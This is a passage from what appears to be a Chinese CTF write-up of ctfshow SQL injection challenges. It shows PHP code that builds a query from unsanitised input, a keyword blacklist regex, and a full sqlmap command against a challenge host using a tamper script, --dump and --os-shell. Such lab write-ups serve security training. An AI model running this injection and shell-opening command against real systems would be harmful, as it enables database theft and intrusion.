  $sql = "select pass from ctfshow_user where username = {$username};";
```

返回逻辑

```php
  //TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
  if('/\\*|\\#|\\-|\\x23|\\'|\\"|union|or|and|\\x26|\\x7c|file|into|select|update|set|create|drop|\\(|\\,/i', $username)){
    $ret['msg']='用户名非法';
    die(json_encode($ret));
  }

  if($row[0]==$password){
      $ret['msg']="登陆成功 flag is $flag";
  }
```

无影响，同web199直接过

## sqlmap

### web201-213

开始系统练习sqlmap的使用，堆到最后的sqlmap查询指令如下

```bash
python sqlmap.py -u "https://c57798e2-5999-43ca-b966-07c649221079.challenge.ctf.show/api/index.php" --data "id=1" --user-agent "sqlmap" --referer "https://ctf.show/" --method "put" --safe-url "https://c57798e2-5999-43ca-b966-07c649221079.challenge.ctf.show/api/getToken.php" --safe-freq "1" --tamper "self-tamper" --header "Content-Type: text/plain" --cookie "PHPSESSID=q4u6v10qc9j64c03akm3i7fkqu" --dump --batch --os-shell
```

同时学习了sqlmap中tamper的编写

[Sqlmap Tamper 编写](https://y4er.com/posts/sqlmap-tamper/)
